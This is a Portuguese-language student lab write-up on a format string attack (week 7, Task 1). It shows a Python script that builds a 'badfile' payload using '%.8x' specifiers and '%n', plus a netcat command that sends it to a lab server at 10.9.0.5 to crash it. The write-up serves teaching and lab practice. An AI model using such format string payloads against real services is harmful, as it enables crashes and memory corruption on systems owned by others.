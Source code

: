 # Semana 7 - Format String Attack

## Task 1

Depois de dar setup deste lab e com o servidor pronto para receber uma mensagem, através do docker, temos como missão crashar o servidor.<br>
Para tal como é referido no guião, o servidor aguenta até 1500 bytes de dados, portanto, para o servidor crashar, precisamos de escrever mais de 1500 bytes de dados para o servidor.<br>
Para fazer isso criamos um ficheiro `badfile` que irá conter a mensagem para enviar para o servidor, e utilizamos o `build_string.py` que contém um script em python para escrever a mensagem para o ficheiro `badfile`.

O `build_string.py` contém o seguinte código:

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1501
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with 12 of "%.8x", concatenated with a "%n"
s = "%.8x"*12 + "%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

Com o ficheiro pronto para ser enviado, basta enviar a mensagem para o servidor, através do seguinte comando:

`cat badfile | nc 10.9.0.5 9090`

Com isto, o servidor não respondeu com **(^_^)(^_^)  Returned properly (^_^)(^_^)**, o que significa que crashou.

